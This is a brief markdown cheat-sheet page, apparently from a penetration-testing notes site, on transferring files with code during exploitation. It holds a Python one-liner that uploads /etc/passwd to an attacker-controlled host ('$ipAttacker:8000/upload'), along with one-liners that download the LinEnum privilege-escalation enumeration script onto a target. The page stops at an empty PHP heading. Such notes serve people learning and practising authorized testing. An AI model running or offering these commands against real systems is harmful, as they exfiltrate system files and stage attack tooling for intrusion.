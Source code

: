 ```yaml
---
title: Transferring files with code
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - exploitation
  - file transfer technique
  - backdoors
---
```

# Transferring files with code

## Upload operations

### Python3

[uploadserver](uploadserver.md)

```python
# Start the Python uploadserver Module
python3 -m uploadserver 

# Uploading a File Using a Python One-liner
python3 -c 'import requests;requests.post("http://$ipAttacker:8000/upload",files={"files":open("/etc/passwd","rb")})'
```


## Download operations

### Python

#### python2 Download

```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```



### PHP
